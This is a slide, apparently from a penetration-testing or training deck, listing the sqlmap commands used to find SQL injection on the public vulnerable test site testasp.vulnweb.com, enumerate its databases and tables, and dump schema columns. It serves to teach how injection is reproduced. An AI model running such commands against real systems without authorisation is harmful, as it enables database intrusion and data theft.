

# Steps To Reproduce (Continued...)

Commands I have executed are:-
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0"
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0"  --dbs
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -D master --tables
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -T INFORMATION_SCHEMA.SCHEMATA --columns
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -T INFORMATION_SCHEMA.SCHEMATA -C CATALOG_NAME,SCHEMA_NAME --dump